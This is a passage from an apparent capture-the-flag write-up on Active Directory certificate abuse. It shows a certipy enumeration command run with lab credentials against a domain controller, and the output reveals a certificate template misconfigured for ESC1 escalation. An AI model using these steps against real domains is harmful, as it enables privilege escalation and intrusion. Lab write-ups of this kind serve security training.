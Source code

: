 <br />

After doing this, if we list vulnerable templates again, we should see the same one, now vulnerable to `ESC1`:

<br />

```bash
❯ certipy find -vulnerable -u ca_svc -p 'Password123!' -dc-ip 10.10.11.51 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
```